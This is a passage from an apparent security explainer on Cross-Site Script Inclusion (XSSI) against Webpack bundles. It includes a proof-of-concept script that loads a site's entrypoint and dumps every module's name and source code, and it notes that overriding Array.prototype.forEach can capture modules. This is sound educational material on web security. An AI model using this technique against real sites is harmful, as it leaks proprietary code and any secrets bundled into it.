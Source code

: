 There are two types of scripts in the browser. One is the module script, which can use `import` and `export` statements and requires the `type=module` attribute when loaded via a `<script>` tag. The other is the classic script, which has been in use for a long time.

For historical reasons, the SOP does not apply when loading classic scripts via a `<script>` tag. This means that even without a CORS configuration, a script can be loaded from an external site. An attack that exploits this is called Cross-Site Script Inclusion (XSSI). To be clear, as mentioned earlier, fetching the script's content directly with `fetch` is blocked by SOP by default.

This becomes a problem for bundlers that output a bundle in classic scripts and in a format that allows the module list to be retrieved.
For example, in Webpack, setting [`output.iife: false`](https://webpack.js.org/configuration/output/#outputiife) can expose the module list in a global variable like `window.webpackChunkSomething`. This allows all module names and their transformed code to be retrieved with code like the following:

```js
const script = document.createElement('script');
script.src = 'http://localhost:3000/path/to/the/entrypoint.js';
script.addEventListener('load', () => {
  for (const page in window.webpackChunkSomething) {
    const moduleList = window.webpackChunkSomething[page][1];
    for (const key in moduleList) {
      console.log('moduleName', key);
      console.log('moduleCode', moduleList[key].toString()); // Function::toString
    }
  }
});
document.head.appendChild(script);
```

Even without such a setting, if the module list is held internally, it can sometimes be retrieved by modifying the prototype.
For instance, with Webpack's default settings, the module list could be obtained by overwriting `Array.prototype.forEach`. Webpack's output includes a function like this:

```js
function __webpack_require__(moduleId) {
  var cachedModule = __webpack_module_cache__[moduleId];
  if (cachedModule !== undefined) {
    return cachedModule.exports;
  }
  var module = (__webpack_module_cache__[moduleId] = { exports: {} });
  var execOptions = {
    id: moduleId,
    module: module,
    factory: __webpack_modules__[moduleId],
    require: __webpack_require__,
  };
  // This call is important! // [!code highlight]
  __webpack_require__.i.forEach(function (handler) { // [!code highlight]
    handler(execOptions); // [!code highlight]
  }); // [!code highlight]
  module = execOptions.module;
  execOptions.factory.call(
    module.exports,
    module,
    module.exports,
    execOptions.require,
  );
  return module.exports;
}
```
